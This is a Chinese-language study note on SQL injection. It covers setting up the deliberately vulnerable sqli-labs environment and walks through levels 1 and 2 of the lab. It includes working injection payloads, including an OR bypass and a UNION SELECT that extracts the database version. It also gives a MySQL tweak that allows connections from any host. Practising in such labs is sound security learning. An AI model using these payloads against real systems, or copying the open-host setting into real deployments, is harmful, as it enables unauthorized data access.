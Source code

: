 ```yaml
---
title: sql注入
date: 2018-08-28 11:30:20
tags: sql注入,sqli-labs
---
```

## SQL注入
sql注入:利用现有程序，使之执行构造的payload.

### 一. 环境搭建
- ubuntu16.04虚拟机
- 更新阿里源 apt-get update
- 安装mysql apt-get install mysql-server mysql-client -y
- 安装apache apt-get install apache2 -y
- 安装git apt-get install git -y
- 项目 cd /var/www && sudo git clone https://github.com/Audi-1/sqli-labs.git sqli-labs  
- 更改项目的mysql配置文件为自己数据库
- 现在在浏览器localhost/sqli-labs已经可以访问到了

##### 问题
- navicat连不上mysql </br>
	注释 /etc/mysql/mysql.cnf.d/mysqld.cnf 中bind 127.0.0.1</br>
	修改select user, host from user;  update user set host = "%" where host = 'localhost';  flush privileges;
- php版本导致mysql_connect()废弃 </br>
	安装phpstorm 配置phpcgi  apt-get install php版本-cgi</br>
	降低版本到php5.6错误仍然在</br>
	第二天重启Phpstrom 打开网页，错误消失</br>
  猜测是降低版本有效，但第一天有缓存</br>

### 二.sqli-labs
参考了大牛的教程https://github.com/lcamry/sqli-labs/blob/master/mysql-injection.pdf

- ** less1 GET-Error based - Single quotes - String </br> **
	php中代码 SELECT * FROM users WHERE id='$id' LIMIT 0,1;
	%20 空格 %27 单引号 %3D 等于号</br>
	一：?id=(select%20id%20from%20users%20where%20username%20%3D"admin") 未成功  	’$id' 注入被单引号包裹，将输入变成了字符串</br>
	二：?id='%20and%20username%3D%27admin 未成功 id=''这个条件未绕过
	想利用id=这个条件或者绕过这个条件</br>
	三：?id='%20or%20username%3D%27admin 成功</br>
	基于二，转换思路，利用or成功绕过</br>
	爆破数据库版本</br>
	?id=-1%27%20%20union%20select%201%2cversion()%2c3%23</br>
	？id=-1'  union select 1,version(),3#</br>
	union必须列一样，所以1和3是为了保持三列

- ** less 2 GET - Error based -Intiger based</br> **
	php中代码 $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";</br>
	$id未加引号过滤输入</br> ?id=(select%20id%20from%20users%20where%20username%20%3D"admin")成功注入
